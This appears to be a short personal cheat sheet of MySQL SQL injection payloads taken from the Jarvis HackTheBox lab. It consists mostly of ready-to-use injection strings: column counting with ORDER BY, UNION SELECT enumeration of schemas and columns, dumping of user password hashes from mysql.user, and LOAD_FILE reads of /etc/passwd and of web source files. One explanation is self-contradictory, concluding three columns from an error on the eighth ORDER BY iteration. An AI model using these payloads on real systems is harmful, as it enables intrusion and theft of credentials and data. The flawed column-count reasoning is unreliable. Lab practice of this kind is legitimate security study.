

# MySQL

#### All examples comes from Jarvis HTB room

[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

## order by \(get number of columns\)

id=1 order by 1

```text
http://10.10.10.143/room.php?cod=2%20order%20by%207
```

We can iterate through the numbers to calculate the number of columns.   
Since the order by clause produced an error on the 8th iteration, we know that the query returns a resultset containing three columns. 


## union select all 

Now that we know how many columns are in the table, we can use this information to extract further data with a UNION statement. Unions allow us to add a second select statement to the original query, extending our capability, but each select statement must return the same number of columns.


## limit

limit to one result. Can iterate through the results with limit 2,1 and then 3, 1. 

```text
SELECT schema_name FROM information_schema.schemata limit 2,1
```

## group\_concat

returns all output in one result.


```text
(SELECT+group_concat(schema_name,"\r\n")+FROM+information_schema.schemata)
```

## Pulling Table and Columns names



```text
(SELECT group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") FROM information_schema.columns where TABLE_SCHEMA = 'hotel')
```

#### Other Examples 

```text
')) OR 1=2 UNION SELECT ALL 1,2,3,4,5,6,7,8,9,TABLE_NAME,11 FROM information_schema.columns
```

## Getting user hashes


```text
(SELECT group_concat(user,":",password,"\r\n") FROM mysql.user)
```

## Loading a file 


```text
LOAD_FILE('/etc/passwd')
```

### TO\_Base64

```text
TO_BASE64(LOAD_FILE('/var/www/html/room.php')
```

